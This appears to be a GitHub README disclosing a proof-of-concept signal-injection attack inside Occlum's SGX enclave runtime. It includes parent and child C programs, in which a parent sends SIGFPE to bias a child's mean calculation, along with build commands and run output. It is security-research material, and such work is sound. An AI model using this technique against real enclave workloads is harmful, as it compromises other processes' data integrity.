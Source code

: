 # occlum
Occlum's threat model does not trust co-resident processes in an enclave. We demonstrate an attack where one process can inject signals into another process. 
Note that, the two processes need not trust each other. Therefore, a malicious process in the enclave can compromise the execution and data integrity of the victim process. 

[https://occlum.readthedocs.io/en/latest/quickstart.html#](https://occlum.readthedocs.io/en/latest/quickstart.html#)

execute  `docker run -it --privileged -v /dev/sgx:/dev/sgx -v $(pwd):/data occlum/occlum:0.28.0-ubuntu20.04` in the root of this Git folder.

hello_world.c (parent)

```c
#include <stdio.h>
#include <unistd.h>
#include <signal.h>
#include <stdio.h>
#include <sys/types.h>
#include <setjmp.h>
#include <string.h>

void main(){
    pid_t pid2 = vfork(); 
    if (pid2 < 0){
            printf("Can't create child process\n");
    }

    if (pid2 == 0){
        char *argv_for_program[] = { "/opt/run_exec", NULL };
        printf ("Write by child process \n");
        execv("/opt/run_exec", argv_for_program);
    }else{
        printf ("Write by parent process %d \n", pid2);
        sleep(2);
        kill(pid2,SIGFPE);
        while (1);
        printf("%s\n","Proccess1 end");
    }
}
```

Our victim process registers a signal handler for SIGFPE to discard any faulting data that causes a floating point injection. 
If the malicious process injects the signal when the target process is computing the mean (in the setjmp block), it can bias the computation. 
For simplicity, we use a busy loop to wait for the signal instead of precisely timing it in our PoC. 

exec_run.c (child)

```c
#include <stdio.h>
#include <signal.h>
#include <setjmp.h>
#include <string.h>

jmp_buf fpe;

//start the data set with some mean=100 and n=10
int old_mean = 100;
int new_mean = 100;
int old_n = 10;
int new_n = 10;
void handler(int signum)
{
    // Do stuff here then return to execution below
    printf("In SIGFPE handler\n");
    new_mean = old_mean;
    new_n = old_n;
    longjmp(fpe, 1);
}

int main()
{
    volatile int i, j;

    struct sigaction act;
    struct sigaction oldact;
    memset(&act, 0, sizeof(act));
    act.sa_handler = handler;
    act.sa_flags = SA_SIGINFO;
    sigaction(SIGFPE, &act, &oldact);

    //Simulating adding new data (10) to the dataset and update the mean 
    if (0 == setjmp(fpe))
    {
        old_mean = new_mean;
        old_n = new_n;
        new_n = new_n + 1;
        new_mean = (10 + old_mean) / new_n;
        printf("Waiting...\n");
        while(1){

        }
    }

    printf("New mean is : %d\n", new_mean);

    return 0;
}

```

hello.yaml (demos/hello.c)

```jsx
includes:
  - base.yaml
targets:
  # copy LTP
  - target: /opt
    copy: ../run_exec
  - target: /bin
    copy:
      - files:
        - ../hello_world
```

commands (run from demos/hello_c):

```bash
cd /data
occlum-gcc -o hello_world hello_world.c
occlum-gcc -o run_exec exec_run.c
mkdir occlum_instance && cd occlum_instance
occlum init
cp ../hello_world image/bin/
cp ../run_exec image/opt/
occlum build
occlum run /bin/hello_world
```


```bash
root@43c7827e571c:/data/occlum_instance# occlum run /bin/hello_world
Write by child process
Write by parent process 3
Waiting...
In SIGFPE handler
New mean is : 100
```
